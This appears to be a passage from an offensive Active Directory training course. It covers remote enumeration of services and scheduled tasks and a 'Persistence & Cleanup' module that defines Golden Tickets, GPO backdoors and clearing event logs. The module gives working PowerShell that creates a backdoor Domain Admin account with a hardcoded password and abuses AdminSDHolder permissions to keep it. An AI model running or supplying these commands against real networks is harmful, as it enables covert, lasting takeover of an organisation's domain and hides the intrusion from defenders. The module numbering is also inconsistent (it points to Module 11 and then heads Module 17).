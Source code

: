 #### Scenario B: WMI Service Enumeration  
```powershell
Get-WmiObject -Class Win32_Service -ComputerName WS002.corp.local | Where { $_.StartName -like "corp\svc_*" } | Select Name,StartName
```

#### Scenario C: Scheduled Tasks  
```powershell
Invoke-Command -ComputerName WS002.corp.local -ScriptBlock {
  Get-ScheduledTask | Where { $_.Principal.UserId -like "corp\*" } | Select TaskName,Principal.UserId
}
```

### Common Pitfalls  
- SMB blocked by firewall.  
- Lacking local admin even with domain creds.  
- DCOM disabled.

### Next Steps  
- **Module 11**: Persistence & Cleanup  

---

## <a name="module-17"></a> Module 17: Persistence & Cleanup

### Introduction  
After achieving DA, establish persistence and clean up evidence.

### Definitions  
1. **SIDHistory**: Maintains old SIDs after migration—can be abused.  
2. **Golden Ticket**: Forged TGT enabling persistent KDC authentication.  
3. **Silver Ticket**: Forged service ticket.  
4. **GPO Backdoor**: Malicious GPO linked to maintain persistence.  
5. **Event Log Manipulation**: Clearing Windows logs to cover tracks.

### Why It Matters  
- Persistence ensures access; cleanup reduces detection.

### Tools & Commands  

#### Backdoor DA Account  
```powershell
New-ADUser -Name "svc_persistence" -SamAccountName "svc_persistence" -AccountPassword (ConvertTo-SecureString "P3rs1st!" -AsPlainText -Force) -Enabled $true -Path "CN=Users,DC=corp,DC=local"
Add-ADGroupMember -Identity "Domain Admins" -Members "svc_persistence"
```

#### Protect with AdminSDHolder  
```powershell
$sdhPath = "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
$acl = Get-Acl $sdhPath
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\svc_persistence","GenericAll","Allow")
$acl.AddAccessRule($rule)
Set-Acl -AclObject $acl $sdhPath
```
